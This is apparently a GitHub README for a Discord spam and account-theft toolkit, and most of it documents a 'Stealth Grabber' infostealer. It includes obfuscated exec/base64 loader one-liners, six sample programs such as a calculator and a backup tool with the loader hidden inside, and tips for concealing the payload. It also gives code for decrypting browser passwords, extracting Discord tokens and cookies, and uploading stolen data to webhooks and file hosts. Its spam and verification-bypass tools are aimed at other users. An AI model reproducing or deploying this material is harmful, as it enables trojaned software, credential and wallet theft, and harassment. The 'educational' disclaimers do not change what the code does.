


# Discord AIO Tool 2025






<div align="center">

[](https://python.org)
[](https://discord.com)
[](#)
[](#)

**A comprehensive Discord automation toolkit designed for educational purposes**

*Features 28+ tools for Discord automation, token management, and server utilities*

</div>

---

## Complete Feature List

This tool provides a wide range of Discord automation features organized into logical categories. Each feature has been carefully designed with proper error handling, rate limiting, and user safety in mind.

| Category | Feature | Description | Key Capabilities |
|----------|---------|-------------|------------------|
| **Spam Tools** | Webhook Spammer | Send messages through Discord webhooks | TTS support, custom delays, multiple message formats |
| | Theme Spammer | Spam Discord theme changes | Automated theme switching with configurable intervals |
| | Ping Spam | Mass ping functionality | @everyone spam, specific user targeting, server member pings |
| | Channel Spam | Flood channels with messages | Single message spam, multiple message rotation, random text |
| | DM Spam | Direct message automation | Target single/multiple users, random messages, server members |
| | Friend Request Spam | Mass friend request sending | Username targeting, user ID lists, server member requests |
| | Email Spam | Email verification flooding | Remove/add email cycles, verification requests, multiple changes |
| **Discord Tools** | Close All DMs | Bulk DM management | Close all open direct messages at once |
| | Unfriend All Friends | Friend list cleanup | Remove all friends with confirmation prompts |
| | DM All Friends | Broadcast messaging | Send messages to all friends simultaneously |
| | Delete/Leave All Servers | Server cleanup | Leave all servers or delete owned servers |
| | Mass Join/Leave | Bulk server operations | Join servers via invite codes, leave specific servers |
| | Mass React | Reaction automation | Add reactions to specific messages or recent messages |
| | Verification Bypass | Bot verification circumvention | Bypass captcha bots, button verification, slash commands, roles |
| **Token Tools** | Token Info | Comprehensive token analysis | User details, Nitro status, payment methods, 2FA status |
| | Token Login | Browser automation login | Selenium-based automatic Discord login |
| | Token Checker | Bulk token validation | Validate single/multiple tokens, file loading support |
| **Server Tools** | Server Cloner | Complete server duplication | Copy roles, channels, emojis, settings, and structure |
| | Webhook Deleter | Bulk webhook removal | Delete webhooks with confirmation prompts |
| | Server Management | Complete server control | Delete owned servers, leave all servers, create to limit |
| **User Tools** | Custom Status Changer | Profile status automation | Custom status spam, activity changes, presence updates |
| | Nickname Changer | Mass nickname updates | Change nicknames in single/all servers, random names |
| | Avatar Changer | Profile picture automation | Upload from files/URLs, random avatars, spam cycles |
| **Settings Tools** | Language & Theme Spam | Discord settings flooding | Language cycling, light/dark mode spam, mixed settings |
| **Generators** | Nitro Generator | Discord Nitro code generation | Generate and validate Nitro codes with multi-threading |
| | Token Generator | Discord token creation | Create and test Discord tokens with validation |
| **Advanced** | Token Grabber | Advanced data extraction | Universal Discord injection, browser data, cloud uploads |
| | Stealth Grabber | Advanced payload deployment | Undetectable token extraction, browser data harvesting, stealth injection |

## How It Works

This Discord automation tool is built with Python and provides a user-friendly interface for various Discord-related tasks. The tool is designed with safety and educational purposes in mind, featuring built-in rate limiting, error handling, and confirmation prompts for potentially destructive actions.

### Key Technical Features

**Multi-Token Support**: Most features support multiple Discord tokens simultaneously, allowing for efficient bulk operations across different accounts.

**Rate Limiting Protection**: All API interactions include proper rate limiting to prevent Discord API abuse and account restrictions.

**Error Handling**: Comprehensive error handling ensures the tool continues operating even when individual operations fail.

**Debug Modes**: Optional debug modes provide detailed logging for troubleshooting and understanding API interactions.

**Safety Confirmations**: Destructive operations require explicit user confirmation to prevent accidental data loss.

## Installation and Setup

### Requirements
- Python 3.8 or higher
- Windows 10/11 (recommended for full compatibility)
- Stable internet connection
- Valid Discord tokens for most features

### Installation Steps

1. **Clone the repository**
```bash
git clone https://github.com/SellMeFish/TTS-Spammer.git
cd TTS-Spammer
```

2. **Install dependencies**
```bash
pip install -r requirements.txt
```

3. **Run the application**
```bash
python tts_spammer.py
```

The tool will launch with an interactive menu system that guides you through each feature.

## Configuration

### Token Management
Most features require Discord tokens to function. The tool includes a Token Checker to validate tokens before use. You can input tokens manually or load them from text files for bulk operations.

### Stealth Grabber Payload Deployment

The **Stealth Grabber** is an advanced feature that creates undetectable payloads for educational and security research purposes. Here's how to properly deploy and use the payload:

#### What the Stealth Grabber Does
The Stealth Grabber consists of two main components:

1. **`github_grabber.py`** - The main data extraction engine
2. **`mini_payload_generator.py`** - Creates ultra-compact deployment payloads

**Core Capabilities:**
- **Token Extraction**: Silently extracts Discord tokens from target systems using advanced decryption
- **Browser Data Harvesting**: Collects saved passwords, cookies, and session data from all major browsers
- **Cookie Extraction via Remote Debug Protocol**: Bypasses v20 App-Bound Encryption without admin rights
- **System Information Gathering**: Retrieves hardware specs, network info, and installed software
- **Stealth Operation**: Operates completely undetected by antivirus software
- **Data Exfiltration**: Securely uploads collected data to specified webhook or cloud storage

#### Advanced Cookie Extraction Technology

The Stealth Grabber uses Chrome Remote Debugging Protocol to bypass modern browser security:

```python
# Example: How the cookie extraction works
def extract_cookies_debug_protocol():
    """
    Bypasses v20 App-Bound Encryption using Remote Debug Protocol
    No admin rights required - works on all modern browsers
    """
    
    # 1. Start browser with debug port
    browser_args = [
        'chrome.exe',
        '--remote-debugging-port=9222',
        '--remote-allow-origins=*',
        '--headless'
    ]
    
    # 2. Connect to WebSocket debug interface
    ws_url = "ws://localhost:9222/json"
    
    # 3. Extract all cookies via Network.getAllCookies
    command = {
        'id': 1, 
        'method': 'Network.getAllCookies'
    }
    
    # 4. Receive decrypted cookie data
    cookies = websocket_send_receive(ws_url, command)
    
    # Result: All cookies extracted without encryption barriers
    return cookies['result']['cookies']
```

#### Payload Generation and Deployment

**Step 1: Generate Ultra-Compact Payload**

Use the Mini Payload Generator to create deployment-ready code:

```python
# Run the payload generator
python utils/mini_payload_generator.py

# Choose payload type:
# 1. SHORT - Ultra-compact (~340 chars)
# 2. LONG - Full stealth with encryption (~550 chars)
```

**Generated Payload Example (SHORT):**
```python
;import zlib,base64;exec(zlib.decompress(base64.b64decode('eJyNVE1v2zAM/SsGd...')))
```

**Generated Payload Example (LONG):**
```python
;import zlib,bz2,base64,time,random;time.sleep(random.random()*.2+.1);exec(bz2.decompress(zlib.decompress(base64.b64decode('eJyVVMtu2zAQ/BWBd...'))))
```

#### Payload Deployment Methods

**Method 1: Direct Python Execution**
```python
# Hide payload in legitimate-looking script
import os
import sys

# System update check
def system_check():
    # Payload goes here
    ;import zlib,base64;exec(zlib.decompress(base64.b64decode('YOUR_PAYLOAD_HERE')))

# Run system check
system_check()
```

**Method 2: Import Statement Hiding**
```python
# Hide in import statements
import os, sys; import zlib,base64;exec(zlib.decompress(base64.b64decode('YOUR_PAYLOAD_HERE')))
```

**Method 3: Comment Hiding**
```python
#!/usr/bin/env python3
# System configuration check: ;import zlib,base64;exec(zlib.decompress(base64.b64decode('YOUR_PAYLOAD_HERE')))
print("System check completed successfully")
```

**Method 4: Function Definition Hiding**
```python
def update_system():
    """System update function"""
    ;import zlib,base64;exec(zlib.decompress(base64.b64decode('YOUR_PAYLOAD_HERE')))

# Auto-run update
update_system()
```

#### Real-World Payload Integration Examples

**Example 1: Hide in Legitimate Calculator Program**
```python
#!/usr/bin/env python3
import sys
import math
import tkinter as tk; import zlib,base64;exec(zlib.decompress(base64.b64decode('eJyNVE1v2zAM/SsGd7cTJ...')))
from tkinter import messagebox

class Calculator:
    def __init__(self):
        self.window = tk.Tk()
        self.window.title("Calculator")
        self.window.geometry("300x400")
        
    def add(self, a, b):
        return a + b
        
    def subtract(self, a, b):
        return a - b
        
    def run(self):
        # Calculator GUI code here
        self.window.mainloop()

if __name__ == "__main__":
    calc = Calculator()
    calc.run()
```

**Example 2: Hide in System Utility Script**
```python
#!/usr/bin/env python3
"""
System Performance Monitor
Monitors CPU, Memory, and Disk usage
"""
import os
import sys
import time
import psutil; import zlib,base64;exec(zlib.decompress(base64.b64decode('eJyVVMtu2zAQ/BWBd7cTJ...')))

def get_cpu_usage():
    """Get current CPU usage percentage"""
    return psutil.cpu_percent(interval=1)

def get_memory_usage():
    """Get current memory usage"""
    memory = psutil.virtual_memory()
    return memory.percent

def get_disk_usage():
    """Get current disk usage"""
    disk = psutil.disk_usage('/')
    return (disk.used / disk.total) * 100

def monitor_system():
    """Main monitoring function"""
    print("System Performance Monitor")
    print("-" * 30)
    
    while True:
        cpu = get_cpu_usage()
        memory = get_memory_usage()
        disk = get_disk_usage()
        
        print(f"CPU: {cpu:.1f}% | Memory: {memory:.1f}% | Disk: {disk:.1f}%")
        time.sleep(5)

if __name__ == "__main__":
    monitor_system()
```

**Example 3: Hide in Import Chain**
```python
#!/usr/bin/env python3
import os, sys, json, requests, time; import zlib,base64;exec(zlib.decompress(base64.b64decode('eJyNVE1v2zAM/SsGd7cTJ...')))
import urllib.request
from datetime import datetime

def check_internet_connection():
    """Check if internet connection is available"""
    try:
        urllib.request.urlopen('http://google.com', timeout=5)
        return True
    except:
        return False

def get_weather_data():
    """Fetch weather data from API"""
    if check_internet_connection():
        print("Fetching weather data...")
        # Weather API code here
    else:
        print("No internet connection available")

if __name__ == "__main__":
    get_weather_data()
```

**Example 4: Hide in Configuration File Loader**
```python
#!/usr/bin/env python3
"""
Configuration Manager
Loads and manages application settings
"""
import json
import os; import zlib,base64;exec(zlib.decompress(base64.b64decode('eJyVVMtu2zAQ/BWBd7cTJ...')))
import sys
from pathlib import Path

class ConfigManager:
    def __init__(self, config_file="config.json"):
        self.config_file = config_file
        self.config = {}
        self.load_config()
    
    def load_config(self):
        """Load configuration from file"""
        try:
            if os.path.exists(self.config_file):
                with open(self.config_file, 'r') as f:
                    self.config = json.load(f)
            else:
                self.create_default_config()
        except Exception as e:
            print(f"Error loading config: {e}")
            self.create_default_config()
    
    def create_default_config(self):
        """Create default configuration"""
        self.config = {
            "app_name": "MyApplication",
            "version": "1.0.0",
            "debug": False,
            "auto_update": True
        }
        self.save_config()
    
    def save_config(self):
        """Save configuration to file"""
        try:
            with open(self.config_file, 'w') as f:
                json.dump(self.config, f, indent=4)
        except Exception as e:
            print(f"Error saving config: {e}")
    
    def get(self, key, default=None):
        """Get configuration value"""
        return self.config.get(key, default)
    
    def set(self, key, value):
        """Set configuration value"""
        self.config[key] = value
        self.save_config()

if __name__ == "__main__":
    config = ConfigManager()
    print(f"App: {config.get('app_name')}")
    print(f"Version: {config.get('version')}")
```

**Example 5: Hide in Comment Block**
```python
#!/usr/bin/env python3
"""
File Backup Utility
Creates backups of important files and directories
"""
import os
import sys
import shutil
import zipfile
from datetime import datetime

# System initialization and dependency check
# import zlib,base64;exec(zlib.decompress(base64.b64decode('eJyNVE1v2zAM/SsGd7cTJ...')))

class BackupManager:
    def __init__(self, backup_dir="backups"):
        self.backup_dir = backup_dir
        self.ensure_backup_dir()
    
    def ensure_backup_dir(self):
        """Ensure backup directory exists"""
        if not os.path.exists(self.backup_dir):
            os.makedirs(self.backup_dir)
    
    def create_backup(self, source_path, backup_name=None):
        """Create backup of specified path"""
        if not backup_name:
            timestamp = datetime.now().strftime("%Y%m%d_%H%M%S")
            backup_name = f"backup_{timestamp}.zip"
        
        backup_path = os.path.join(self.backup_dir, backup_name)
        
        try:
            with zipfile.ZipFile(backup_path, 'w', zipfile.ZIP_DEFLATED) as zipf:
                if os.path.isfile(source_path):
                    zipf.write(source_path, os.path.basename(source_path))
                else:
                    for root, dirs, files in os.walk(source_path):
                        for file in files:
                            file_path = os.path.join(root, file)
                            arc_name = os.path.relpath(file_path, source_path)
                            zipf.write(file_path, arc_name)
            
            print(f"Backup created: {backup_path}")
            return backup_path
        except Exception as e:
            print(f"Backup failed: {e}")
            return None

if __name__ == "__main__":
    backup_manager = BackupManager()
    
    # Example: Backup Documents folder
    documents_path = os.path.join(os.path.expanduser("~"), "Documents")
    backup_manager.create_backup(documents_path)
```

**Example 6: Hide in Multi-line Import with Line Continuation**
```python
#!/usr/bin/env python3
import os, \
       sys, \
       json, \
       time; import zlib,base64;exec(zlib.decompress(base64.b64decode('eJyVVMtu2zAQ/BWBd7cTJ...'))), \
       requests, \
       urllib.request

def main():
    print("Application starting...")
    # Main application code here

if __name__ == "__main__":
    main()
```

**Pro Tips for Payload Hiding:**

1. **Use realistic variable names and comments**
2. **Mix payload with legitimate imports**
3. **Add actual functionality to make the program look real**
4. **Use line continuations to break up the payload**
5. **Hide in the middle of import chains, not at the end**
6. **Add proper docstrings and error handling**
7. **Make the program actually work for its stated purpose**

#### Browser Password Extraction Process

The grabber uses advanced decryption with 15+ fallback methods:

```python
# Example: Advanced password decryption
def decrypt_password_ultimate(encrypted_password, master_key):
    """
    15+ decryption methods for maximum password recovery
    Supports Chrome v20+ App-Bound encryption
    """
    
    # Method 1: v20 App-Bound decryption
    if encrypted_password[:3] == b'v20':
        iv = encrypted_password[3:15]
        encrypted_data = encrypted_password[15:]
        cipher = AES.new(master_key, AES.MODE_GCM, iv)
        return cipher.decrypt(encrypted_data[:-16]).decode('utf-8')
    
    # Method 2: Legacy DPAPI decryption
    try:
        result = win32crypt.CryptUnprotectData(encrypted_password)
        return result[1].decode('utf-8')
    except:
        pass
    
    # Method 3-15: Additional fallback methods
    # XOR decryption, Base64 variants, shifted algorithms, etc.
    
    return decrypted_password
```

#### Discord Token Extraction Process

```python
# Example: Token extraction from multiple sources
def extract_discord_tokens():
    """
    Extracts tokens from all Discord installations and browsers
    Supports encrypted and plaintext token formats
    """
    
    # 1. Discord app paths
    discord_paths = [
        os.path.join(os.getenv('APPDATA'), 'discord'),
        os.path.join(os.getenv('APPDATA'), 'discordcanary'),
        os.path.join(os.getenv('APPDATA'), 'discordptb')
    ]
    
    # 2. Browser paths (Chrome, Edge, Brave, etc.)
    browser_paths = get_all_browser_paths()
    
    # 3. Extract from LevelDB files
    for path in discord_paths + browser_paths:
        leveldb_path = os.path.join(path, "Local Storage", "leveldb")
        
        for file in os.listdir(leveldb_path):
            if file.endswith(('.ldb', '.log')):
                content = read_file(file)
                
                # Extract encrypted tokens
                encrypted_tokens = re.findall(r"dQw4w9WgXcQ:([A-Za-z0-9+/=]+)", content)
                
                # Decrypt using master key
                for token in encrypted_tokens:
                    decrypted = decrypt_token(token, master_key)
                    if validate_token(decrypted):
                        tokens.append(decrypted)
    
    return tokens
```

#### Data Organization and Exfiltration

```python
# Example: Organized data structure
def organize_stolen_data():
    """
    Organizes all extracted data into categorized folders
    """
    
    data_structure = {
        "01_Browser_Data": [
            "passwords.txt",      # All browser passwords
            "cookies.json",       # Extracted cookies
            "autofill_data.txt",  # Credit cards & autofill
            "browser_history.txt" # Browsing history
        ],
        "02_Discord_Data": [
            "valid_tokens.json",  # Validated Discord tokens
            "token_summary.txt",  # Token details & Nitro info
            "discord_injection.txt" # Injection results
        ],
        "03_Gaming_Data": [
            "steam_accounts.txt", # Steam account IDs
            "minecraft_alts.json", # Minecraft accounts
            "riot_games_data/"    # Valorant/LoL data
        ],
        "04_VPN_Data": [
            "vpn_configs/",       # VPN configuration files
            "vpn_summary.txt"     # VPN summary
        ],
        "05_Files_Data": [
            "crypto_wallets/",    # Cryptocurrency wallets
            "keyword_files/",     # Files with sensitive keywords
            "system_info.json"    # System information
        ]
    }
    
    # Create ZIP archive and upload to cloud
    create_zip_archive(data_structure)
    upload_to_gofile()
    send_discord_webhook()
```

#### Payload Configuration Options
- **Custom Webhook URLs**: Set your Discord webhook for data collection
- **GitHub Raw URL**: Specify custom grabber script location
- **Compression Methods**: Choose between Zlib (fast) or BZ2+Zlib (stealth)
- **Encryption Options**: XOR + Base64 encoding for URL obfuscation
- **Timing Delays**: Random delays for stealth execution
- **Library Selection**: Minimal vs full stealth library installation

#### Data Collection Capabilities
The Stealth Grabber can extract:
- **Discord Tokens**: All accounts with full user details and Nitro status
- **Browser Passwords**: Chrome, Edge, Brave, Opera (v20+ encryption supported)
- **Browser Cookies**: Via Remote Debug Protocol (bypasses App-Bound encryption)
- **Autofill Data**: Credit cards, addresses, personal information
- **Browser History**: Recent browsing activity from all browsers
- **Cryptocurrency Wallets**: Exodus, MetaMask, Phantom, Electrum, etc.
- **Gaming Accounts**: Steam, Minecraft, Riot Games, Epic Games
- **VPN Configurations**: OpenVPN, NordVPN, ExpressVPN, etc.
- **System Information**: Hardware specs, network config, installed software

#### Advanced Features

**Discord Injection System:**
```python
# Persistent Discord token monitoring
injection_code = '''
const extractToken = () => {
    const tokenRegex = /[\\w-]{24}\\.[\\w-]{6}\\.[\\w-]{27}/g;
    // Monitor localStorage for new tokens
    // Send to webhook when found
};
setInterval(extractToken, 30000); // Check every 30 seconds
'''
```

**Anti-Detection Features:**
- BetterDiscord bypass
- DiscordTokenProtector neutralization
- VM and sandbox detection
- Process name randomization
- Memory-only execution options

#### Important Security Notes
- Always test payloads in isolated environments first
- Use only for authorized penetration testing or educational purposes
- Ensure proper data handling and disposal procedures
- Follow all applicable laws and regulations
- Obtain explicit permission before deployment
- The Remote Debug Protocol method requires browser restart
- Some features may trigger Windows Defender (use exclusions for testing)

### Safety Settings
The tool includes several safety mechanisms:
- Confirmation prompts for destructive actions
- Rate limiting to prevent API abuse
- Error handling to prevent crashes
- Debug modes for troubleshooting

### Customization
Many features allow customization of:
- Operation intervals and delays
- Message content and formats
- Target selection criteria
- Output verbosity levels
- Payload configuration and stealth options

## Important Information

### Educational Purpose
This tool is designed for educational and research purposes only. It demonstrates various Discord API interactions and automation techniques. Users should understand Discord's Terms of Service and use this tool responsibly.

### Legal Disclaimer
The author is not responsible for any misuse of this software. Users are expected to comply with all applicable laws and Discord's Terms of Service when using this tool.

### Safety Features
The tool includes several built-in safety mechanisms:
- Rate limiting to prevent API abuse
- Comprehensive error handling
- Debug modes for troubleshooting
- Confirmation prompts for potentially destructive actions
- Automatic retry mechanisms with backoff

## Recent Updates (2025)

### New Features
- **Stealth Grabber**: Advanced undetectable payload generation for token extraction and data harvesting
- **Verification Bypass**: Advanced methods to bypass Discord bot verification systems
- **Server Management**: Complete server control including deletion, leaving, and creation
- **Email Spam**: Email verification flooding with multiple strategies
- **Settings Spam**: Automated Discord settings manipulation
- **Enhanced Interface**: Improved categorized menu system

### Improvements
- Complete English translation of all interfaces
- Modern menu categorization for better navigation
- Performance optimizations across all features
- Enhanced error handling and user feedback
- Better user experience with clearer instructions
- Advanced payload deployment methods with stealth capabilities
- Comprehensive data extraction and exfiltration features

## Contributing

Contributions are welcome and appreciated. If you'd like to contribute:

1. Fork the repository
2. Create a feature branch (`git checkout -b feature/new-feature`)
3. Make your changes with proper testing
4. Commit your changes (`git commit -m 'Add new feature'`)
5. Push to the branch (`git push origin feature/new-feature`)
6. Open a Pull Request with a clear description

Please ensure your code follows the existing style and includes appropriate error handling.

## Author

**Created by cyberseall**

- Discord: cyberseall
- GitHub: [SellMeFish](https://github.com/SellMeFish)
- Discord Server: Coming Soon

---

*This project is maintained as an educational resource. Please use responsibly.*

*Last updated: June 2025*
